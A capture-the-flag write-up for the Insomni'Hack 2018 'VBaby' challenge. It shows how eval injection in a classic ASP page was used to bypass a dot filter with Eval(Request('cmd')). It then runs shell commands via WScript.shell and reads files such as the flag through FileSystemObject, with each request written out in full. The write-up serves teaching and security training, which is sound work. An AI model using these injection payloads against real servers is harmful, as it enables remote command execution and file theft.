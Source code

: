 ```yaml
---
title: Insomni'Hack 2018 - VBaby
layout: writeup
date: 2018-03-25 21:00:00 +0100
authors: qlemaire
---
```

Solves: 22 / Points: 137

## Challenge description
> The admin of this site thinks he's a good dev. Just show him he's not by retrieving the flag on his server!

We start with a URL: http://vbaby.insomni.hack

## Challenge resolution
The website has a single input, the `page` GET parameter. After playing and manually fuzzing this input, the server returns a VBscript compilation error.

After some research, we find out that the server is performing an `eval` call on the provided input. However, the dot (.) character is filtered.

We can use two different technics to bypass the dot filter:
1. using `Chr(46)` and concatenation character `&`.
2. using `Eval(Request("cmd"))` and putting the payload within `cmd` parameter. Indeed, only the `page` parameter content is filtered.

In order to execute code in VBS, we can leverage `WScript.shell` object. To read the output of the command (and read file content), we use `scripting.FileSystemObject`.

First, we enumerate files and folders within `C:\` by running `cmd /c dir C:\>C:\temp\dir.txt`:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("wscript.shell").Run("cmd+/c+dir+C:\>C:\temp\dir.txt")
```
Then, we read the content of `C:\temp\dir.txt` with:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\temp\dir.txt").ReadAll
```
![Reading C folder](/assets/reading-c-folder.png)

And we find out that the flag is stored within `C:\this_file_contains_the_flags_guys.txt`.

This final request allows us to grab the flag:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\this_file_contains_the_flag_guys.txt").ReadAll
```
![Reading flag](/assets/reading-flag.png)

